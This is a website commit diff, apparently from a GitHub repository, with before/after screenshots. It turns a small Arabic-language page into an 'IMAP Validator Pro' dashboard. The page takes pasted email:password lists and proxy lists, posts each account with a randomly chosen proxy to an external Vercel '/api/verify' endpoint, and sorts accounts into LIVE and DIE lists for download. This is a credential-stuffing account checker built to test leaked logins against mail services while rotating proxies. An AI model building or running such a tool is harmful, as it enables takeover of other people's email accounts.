

Before and after one commit to ffll59544-sketch/MYTU, a website: page index.html in a window 1280 px wide. Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,95 +3,162 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Validator Dashboard</title>
+    <title>Advanced IMAP Validator Pro</title>
     <script src="https://cdn.tailwindcss.com"></script>
+    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0/css/all.min.css">
 </head>
-<body class="bg-slate-900 text-white min-h-screen p-5">
-    <div class="max-w-4xl mx-auto">
-        <h1 class="text-3xl font-bold mb-8 text-center text-blue-400">نظام التحقق الذكي</h1>
+<body class="bg-[#0f172a] text-slate-200 min-h-screen font-sans">
 
-        <div class="grid grid-cols-3 gap-4 mb-8">
-            <div class="bg-slate-800 p-4 rounded-xl border border-slate-700 text-center">
-                <p class="text-slate-400">الإجمالي</p>
-                <p id="totalCount" class="text-2xl font-bold">0</p>
-            </div>
-            <div class="bg-slate-800 p-4 rounded-xl border border-green-900/50 text-center">
-                <p class="text-green-400">ناجح</p>
-                <p id="successCount" class="text-2xl font-bold text-green-500">0</p>
-            </div>
-            <div class="bg-slate-800 p-4 rounded-xl border border-red-900/50 text-center">
-                <p class="text-red-400">فاشل</p>
-                <p id="failCount" class="text-2xl font-bold text-red-500">0</p>
+    <div class="max-w-6xl mx-auto p-4 md:p-8">
+        <div class="flex flex-col md:flex-row justify-between items-center mb-8 gap-4">
+            <h1 class="text-3xl font-black bg-gradient-to-r from-blue-400 to-emerald-400 bg-clip-text text-transparent">
+                IMAP NODE VALIDATOR v2.0
+            </h1>
+            <div class="flex gap-2">
+                <button onclick="downloadResults('success')" class="bg-emerald-600/20 text-emerald-400 border border-emerald-600/50 px-4 py-2 rounded-lg text-sm hover:bg-emerald-600 hover:text-white transition">
+                    <i class="fas fa-download ml-2"></i> تحميل الناجح
+                </button>
+                <button onclick="downloadResults('failed')" class="bg-red-600/20 text-red-400 border border-red-600/50 px-4 py-2 rounded-lg text-sm hover:bg-red-600 hover:text-white transition">
+                    <i class="fas fa-trash ml-2"></i> تحميل الفاشل
+                </button>
             </div>
         </div>
 
-        <div class="bg-slate-800 p-6 rounded-2xl mb-8">
-            <textarea id="accountsInput" class="w-full h-48 bg-slate-900 border border-slate-700 rounded-lg p-4 mb-4 focus:ring-2 focus:ring-blue-500 outline-none" placeholder="ضع الحسابات هنا بصيغة email:password"></textarea>
-            <button onclick="processAccounts()" id="btnRun" class="w-full bg-blue-600 hover:bg-blue-700 py-3 rounded-lg font-bold transition">بدء الفحص الآن</button>
+        <div class="grid grid-cols-1 md:grid-cols-4 gap-4 mb-8">
+            <div class="bg-slate-800/50 border border-slate-700 p-5 rounded-2xl">
+                <p class="text-slate-400 text-sm">إجمالي القائمة</p>
+                <p id="totalCount" class="text-3xl font-bold">0</p>
+            </div>
+            <div class="bg-slate-800/50 border border-slate-700 p-5 rounded-2xl border-b-4 border-b-blue-500">
+                <p class="text-slate-400 text-sm">جاري الفحص</p>
+                <p id="checkingCount" class="text-3xl font-bold text-blue-400">0</p>
+            </div>
+            <div class="bg-slate-800/50 border border-slate-700 p-5 rounded-2xl border-b-4 border-b-emerald-500">
+                <p class="text-slate-400 text-sm">متصل (Live)</p>
+                <p id="successCount" class="text-3xl font-bold text-emerald-400">0</p>
+            </div>
+            <div class="bg-slate-800/50 border border-slate-700 p-5 rounded-2xl border-b-4 border-b-red-500">
+                <p class="text-slate-400 text-sm">مرفوض (Die)</p>
+                <p id="failCount" class="text-3xl font-bold text-red-400">0</p>
+            </div>
         </div>
 
-        <div class="bg-slate-800 rounded-2xl overflow-hidden">
-            <table class="w-full text-right">
-                <thead class="bg-slate-700">
-                    <tr>
-                        <th class="p-4">الحساب</th>
-                        <th class="p-4">الحالة</th>
-                    </tr>
-                </thead>
-                <tbody id="resultsTable"></tbody>
-            </table>
+        <div class="grid grid-cols-1 lg:grid-cols-3 gap-8">
+            <div class="lg:col-span-1 space-y-6">
+                <div class="bg-slate-800 p-6 rounded-2xl shadow-xl border border-slate-700">
+                    <label class="block text-sm font-medium mb-2 text-slate-400 text-right">قائمة الحسابات (email:pass)</label>
+                    <textarea id="accountsInput" class="w-full h-64 bg-slate-900 border border-slate-700 rounded-xl p-4 text-sm focus:ring-2 focus:ring-blue-500 outline-none resize-none" placeholder="example@outlook.com:password123"></textarea>
+
+                    <label class="block text-sm font-medium mt-4 mb-2 text-slate-400 text-right">قائمة البروكسي (اختياري)</label>
+                    <textarea id="proxyInput" class="w-full h-32 bg-slate-900 border border-slate-700 rounded-xl p-4 text-sm focus:ring-2 focus:ring-blue-500 outline-none resize-none" placeholder="ip:port:user:pass"></textarea>
+
+                    <button onclick="startValidation()" id="startBtn" class="w-full mt-6 bg-blue-600 hover:bg-blue-700 text-white font-bold py-4 rounded-xl shadow-lg shadow-blue-900/20 transition-all flex items-center justify-center gap-2">
+                        <i class="fas fa-bolt"></i> تشغيل النظام
+                    </button>
+                </div>
+            </div>
+
+            <div class="lg:col-span-2">
+                <div class="bg-slate-800 rounded-2xl border border-slate-700 overflow-hidden shadow-xl">
+                    <div class="overflow-x-auto max-h-[700px]">
+                        <table class="w-full text-right">
+                            <thead class="bg-slate-700/50 sticky top-0 backdrop-blur-md">
+                                <tr>
+                                    <th class="p-4 text-sm font-semibold">الحساب</th>
+                                    <th class="p-4 text-sm font-semibold">البروكسي</th>
+                                    <th class="p-4 text-sm font-semibold text-center">الحالة</th>
+                                </tr>
+                            </thead>
+                            <tbody id="resultsTable" class="divide-y divide-slate-700">
+                                </tbody>
+                        </table>
+                    </div>
+                </div>
+            </div>
         </div>
     </div>
 
     <script>
-        let success = 0; let fail = 0;
+        let successList = [];
+        let failedList = [];
+        let isRunning = false;
 
-        async function processAccounts() {
-            const input = document.getElementById('accountsInput').value.trim();
-            const lines = input.split('\n');
-            if(!input) return alert('الرجاء إدخال حسابات');
+        async function startValidation() {
+            const accounts = document.getElementById('accountsInput').value.trim().split('\n');
+            const proxies = document.getElementById('proxyInput').value.trim().split('\n').filter(p => p !== "");
+            const table = document.getElementById('resultsTable');
+            const btn = document.getElementById('startBtn');
 
-            document.getElementById('totalCount').innerText = lines.length;
-            document.getElementById('btnRun').disabled = true;
-            document.getElementById('btnRun').innerText = 'جاري الفحص...';
+            if (!accounts[0]) return alert("الرجاء إدخال حسابات للفحص");
 
-            for (let line of lines) {
-                if (!line.includes(':')) continue;
+            isRunning = true;
+            btn.disabled = true;
+            btn.innerHTML = '<i class="fas fa-spinner animate-spin"></i> جاري التحقق...';
 
-                const row = document.getElementById('resultsTable').insertRow(0);
-                row.className = "border-b border-slate-700";
-                row.insertCell(0).className = "p-4 text-sm text-slate-300";
-                row.cells[0].innerText = line.split(':')[0];
-                const statusCell = row.insertCell(1);
-                statusCell.className = "p-4 font-bold text-yellow-500";
-                statusCell.innerText = "فحص...";
+            document.getElementById('totalCount').innerText = accounts.length;
+            let s = 0, f = 0, c = 0;
+
+            for (let account of accounts) {
+                if (!isRunning) break;
+                if (!account.includes(':')) continue;
+
+                c++;
+                document.getElementById('checkingCount').innerText = c;
+
+                // اختيار بروكسي عشوائي من القائمة
+                const selectedProxy = proxies.length > 0 ? proxies[Math.floor(Math.random() * proxies.length)] : "Direct IP";
+
+                const row = table.insertRow(0);
+                row.className = "bg-slate-800/30 animate-pulse";
+                row.insertCell(0).className = "p-4 text-sm truncate max-w-[200px]";
+                row.cells[0].innerText = account.split(':')[0];
+
+                row.insertCell(1).className = "p-4 text-xs text-slate-500";
+                row.cells[1].innerText = selectedProxy;
+
+                const statusCell = row.insertCell(2);
+                statusCell.className = "p-4 text-center text-xs font-bold uppercase tracking-wider";
+                statusCell.innerHTML = '<span class="text-blue-400">جاري الاتصال...</span>';
 
                 try {
-                    const response = await fetch('https://mytu-git-main-ffll59544-sketchs-projects.vercel.app/api/verify', {
+                    const response = await fetch('https://mytu-beige.vercel.app/api/verify', {
                         method: 'POST',
                         headers: { 'Content-Type': 'application/json' },
-                        body: JSON.stringify({ account: line.trim() })
+                        body: JSON.stringify({ account: account.trim(), proxy: selectedProxy })
                     });
                     const data = await response.json();
 
+                    row.classList.remove('animate-pulse');
                     if (data.status === 'SUCCESS') {
-                        statusCell.innerText = "SUCCESS";
-                        statusCell.className = "p-4 text-green-500 font-bold";
-                        success++;
-                        document.getElementById('successCount').innerText = success;
+                        statusCell.innerHTML = '<span class="bg-emerald-500/10 text-emerald-500 px-3 py-1 rounded-full border border-emerald-500/20">LIVE</span>';
+                        successList.push(account);
+                        s++; document.getElementById('successCount').innerText = s;
                     } else {
-                        statusCell.innerText = "FAILED";
-                        statusCell.className = "p-4 text-red-500 font-bold";
-                        fail++;
-                        document.getElementById('failCount').innerText = fail;
+                        statusCell.innerHTML = '<span class="bg-red-500/10 text-red-500 px-3 py-1 rounded-full border border-red-500/20">DIE</span>';
+                        failedList.push(account);
+                        f++; document.getElementById('failCount').innerText = f;
                     }
                 } catch (e) {
-                    statusCell.innerText = "Error";
-                    fail++;
+                    statusCell.innerHTML = '<span class="text-slate-600 font-normal italic">خطأ شبكة</span>';
+                    f++;
                 }
+                c--;
+                document.getElementById('checkingCount').innerText = c;
             }
-            document.getElementById('btnRun').disabled = false;
-            document.getElementById('btnRun').innerText = 'بدء الفحص الآن';
+
+            btn.disabled = false;
+            btn.innerHTML = '<i class="fas fa-bolt"></i> إعادة التشغيل';
+        }
+
+        function downloadResults(type) {
+            const list = type === 'success' ? successList : failedList;
+            if (list.length === 0) return alert("لا توجد نتائج لتحميلها");
+
+            const blob = new Blob([list.join('\n')], { type: 'text/plain' });
+            const a = document.createElement('a');
+            a.href = URL.createObjectURL(blob);
+            a.download = `results_${type}_${new Date().getTime()}.txt`;
+            a.click();
         }
     </script>
 </body>
```
